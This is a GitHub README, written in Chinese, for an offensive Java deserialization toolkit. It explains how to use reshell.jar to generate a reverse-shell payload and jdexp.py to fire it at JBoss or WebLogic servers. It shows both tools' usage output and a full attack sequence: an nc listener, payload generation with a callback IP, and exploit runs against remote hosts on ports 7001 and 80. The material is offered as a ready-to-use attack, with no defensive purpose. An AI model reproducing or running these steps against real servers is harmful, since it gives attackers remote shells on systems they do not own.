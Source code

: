 # JavaDeserialization


用[reshell.jar](https://github.com/hackzx/JavaDeserialization/raw/master/reshell.jar "java1.8编译")生成反弹shell的payload，然后[jdexp.py](https://github.com/hackzx/JavaDeserialization/raw/master/jdexp.py)执行。

```
▶ java -jar reshell.jar
usage: reshell.jar host port path

……

positional arguments:
  host        reverse domain/IP
  port        reverse port
  path        generate payload file path

  
  
▶ python jdexp.py -h
usage: jdexp.py [-h] [-jboss] [-weblogic] host port payload

……

positional arguments:
  host        remote domain/IP
  port        remote port
  payload     local payload file

optional arguments:
  -h, --help  show this help message and exit
  -jboss      hack jboss
  -weblogic   hack weblogic
```

……

```
Example:

▶ nc -vvlp 888
▶ cp shell.jar /var/www/
▶ java -jar reshell.jar [ReverseIP] 888 /tmp/payload
▶ python jdexp.py -weblogic [RemoteIP] 7001 /tmp/payload
▶ python jdexp.py -jboss [RemoteIP] 80 /tmp/payload
```

 
